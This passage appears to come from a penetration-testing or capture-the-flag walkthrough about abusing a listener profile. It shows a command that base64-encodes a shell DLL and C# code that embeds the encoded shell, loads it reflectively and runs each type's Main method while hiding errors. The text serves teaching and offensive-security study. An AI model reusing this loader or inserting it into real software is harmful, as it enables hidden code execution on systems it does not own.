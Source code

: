 ![](img/wl-build-shell.jpeg)

We now have to convert this shell into a base64 string that we will insert into our malicious listener profile. To do that we can use the following command:

```bash
base64 -w 0 shell.dll > shell_b64
```

Malicious Listener Profile
--------------------------

### Profile C# Code

For the malicious listener we will use the following code where we will insert our base64 shell into the string variable:

```c#
public static class MessageTransform
{
	public static string Transform(byte[] bytes)
	{
		try
		{
			string assemblyBase64 = "BASE_64_SHELL";
			var assemblyBytes = System.Convert.FromBase64String(assemblyBase64);
			var assembly = System.Reflection.Assembly.Load(assemblyBytes);

			foreach (var type in assembly.GetTypes()) {
				object instance = System.Activator.CreateInstance(type);
				object[] args = new object[] { new string[] { "" } };
				try {
					type.GetMethod("Main").Invoke(instance, args);
				}
				catch {}
            }
		}
		catch {}
		return System.Convert.ToBase64String(bytes);
	}
	public static byte[] Invert(string str)
	{
		return System.Convert.FromBase64String(str);
	}
}
```
